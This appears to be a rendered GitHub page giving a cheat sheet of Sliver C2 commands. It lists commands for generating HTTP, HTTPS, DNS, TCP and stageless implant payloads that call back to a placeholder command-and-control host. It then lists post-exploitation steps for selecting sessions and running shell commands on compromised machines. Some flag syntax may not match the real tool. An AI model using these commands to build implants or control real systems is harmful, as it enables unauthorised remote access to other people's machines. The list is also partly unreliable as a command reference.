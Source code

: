 
## Command Examples:

The Sliver C2 framework is a powerful and flexible post-exploitation command and control tool. Here is a list of common commands you can use with Sliver for generating payloads and performing post-exploitation activities. Note that the exact commands may vary depending on the version of Sliver you are using. For the most up-to-date information, consult the official Sliver documentation or use the help commands within the Sliver console.

### Payload Generation Commands

1. **Generate an HTTP payload**:
   ```bash
   generate --http --host <C2_HOST> --port <C2_PORT> --save <FILENAME>
   ```

2. **Generate an HTTPS payload**:
   ```bash
   generate --https --host <C2_HOST> --port <C2_PORT> --save <FILENAME>
   ```

3. **Generate a DNS payload**:
   ```bash
   generate --dns --host <C2_HOST> --port <C2_PORT> --save <FILENAME>
   ```

4. **Generate a TCP payload**:
   ```bash
   generate --tcp --host <C2_HOST> --port <C2_PORT> --save <FILENAME>
   ```

5. **Generate a stageless payload**:
   ```bash
   generate --stageless --http --host <C2_HOST> --port <C2_PORT> --save <FILENAME>
   ```

6. **Generate a payload for a specific platform**:
   ```bash
   generate --http --host <C2_HOST> --port <C2_PORT> --save <FILENAME> --platform <PLATFORM>
   ```

### Post-Exploitation Commands

1. **List active sessions**:
   ```bash
   sessions
   ```

2. **Interact with a session**:
   ```bash
   use <SESSION_ID>
   ```

3. **Execute a command on the target system**:
   ```bash
   shell <COMMAND>
   ```
